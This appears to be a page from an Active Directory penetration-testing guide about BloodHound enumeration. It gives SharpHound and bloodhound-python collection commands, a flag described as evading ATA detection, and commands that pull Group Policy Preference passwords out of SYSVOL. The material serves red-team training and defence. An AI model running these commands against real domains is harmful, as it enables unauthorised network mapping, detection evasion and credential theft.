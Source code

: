# BloodHound Enumeration

## BloodHound

### Enable Sharp-Hound

<figure><img src="https://github.com/AD-Attacks/Active-Directory-Penetration-Testing/raw/main/.gitbook/assets/blood-hound.jpeg" alt=""><figcaption></figcaption></figure>

### Supply data to BloodHound

### The generated archive can be uploaded to the BloodHound application.

**Remote BloodHound**

```bash
bloodhound-python -u <UserName> -p <Password> -ns <Domain Controller's Ip> -d <Domain> -c All
bloodhound-python -u user -p password -ns 192.168.1.5 -d hacktor.local -c All
```

**On-Site BloodHound**

{% code overflow="wrap" %}
```powershell
#Using exe investor
.\SharpHound.exe --CollectionMethod All --LdapUsername <UserName> --LdapPassword <Password> --domain <Domain> --domaincontroller <Domain Controller's Ip> --OutputDirectory <PathToFile>

.\SharpHound.exe  All
#Using PowerShell module investor
. .\SharpHound.ps1
Invoke-BloodHound -CollectionMethod All --LdapUsername <UserName> --LdapPassword <Password> --OutputDirectory <PathToFile>
```
{% endcode %}

```powershell
. .\SharpHound.ps1
Invoke-BloodHound -CollectionMethod All,LoggedOn
```

### To avoid detections like ATA

```bash
Invoke-BloodHound -CollectionMethod All -ExcludeDC
```

#### Neo4j

#### Start neo4j and BloodHound UI on kali machine and load the zip/json files

```bash
sudo neo4j start
```

{% hint style="warning" %}
<pre data-overflow="wrap"><code><strong>if you found win server lessThan 2016 like as 2012 R2 or less you can use these commands to show local users 
</strong></code></pre>
{% endhint %}

this option (Local user) unavailable on win server 2016

```bash
#To show password # from powersploit 
Get-GPPPassword -Server PDC.wargrey.mon
#also to show password from sysvol in winServer2012 
findstr /S /I cpassword \\PDC\sysvol\wargrey.mon\Policies\*.xml
```

